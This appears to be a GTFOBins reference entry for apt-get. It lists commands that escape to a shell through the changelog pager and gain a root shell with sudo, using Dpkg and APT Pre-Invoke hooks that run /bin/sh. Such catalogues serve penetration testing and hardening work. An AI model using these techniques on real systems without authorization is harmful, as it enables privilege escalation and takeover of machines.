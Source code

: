   shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        apt-get changelog apt
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo apt-get changelog apt
        !/bin/sh
    - description: For this to work the target package (e.g., `sl`) must not be installed.
      code: |
        TF=$(mktemp)
        echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
        sudo apt-get install -c $TF sl
    - description: When the shell exits the `update` command is actually executed.
      code: sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
---
